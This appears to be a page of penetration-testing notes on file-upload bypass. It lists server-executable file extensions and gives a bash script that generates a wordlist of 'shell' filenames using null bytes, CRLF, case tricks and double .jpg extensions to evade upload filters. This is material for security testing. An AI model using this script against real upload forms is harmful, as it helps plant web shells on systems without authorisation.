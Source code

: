 
Extensions
#########

- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws


https://book.hacktricks.xyz/pentesting-web/file-upload


```bash

#!/bin/bash

payload_name="shell"

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.phps' '.phps' '.pht' '.phtm' '.phtml' '.pgif' '.shtml' '.htaccess' '.phar' '.inc'; do
        echo "${payload_name}${ext}" >> wordlist.txt
        echo "${payload_name}${ext^^}" >> wordlist.txt
        echo "${payload_name}$(echo ${ext} | sed 's/./\U&/3')" >> wordlist.txt
        echo "${payload_name}${char}${ext}.jpg" >> wordlist.txt
        echo "${payload_name}${char}${ext^^}.jpg" >> wordlist.txt
        echo "${payload_name}${char}$(echo ${ext} | sed 's/./\U&/3').jpg" >> wordlist.txt
        echo "${payload_name}${char}${ext}.jpg" >> wordlist.txt
        echo "${payload_name}${char}${ext^^}.jpg" >> wordlist.txt
        echo "${payload_name}${char}$(echo ${ext} | sed 's/./\U&/3').jpg" >> wordlist.txt
        echo "${payload_name}${ext}${char}.jpg" >> wordlist.txt
        echo "${payload_name}${ext^^}${char}.jpg" >> wordlist.txt
        echo "${payload_name}$(echo ${ext} | sed 's/./\U&/3')${char}.jpg" >> wordlist.txt
        echo "${payload_name}.jpg${char}${ext}" >> wordlist.txt
        echo "${payload_name}.jpg${char}${ext^^}" >> wordlist.txt
        echo "${payload_name}.jpg${char}$(echo ${ext} | sed 's/./\U&/3')" >> wordlist.txt
        echo "${payload_name}.jpg${ext}${char}" >> wordlist.txt
        echo "${payload_name}.jpg${ext^^}${char}" >> wordlist.txt
        echo "${payload_name}.jpg$(echo ${ext} | sed 's/./\U&/3')${char}" >> wordlist.txt
    done
done
```
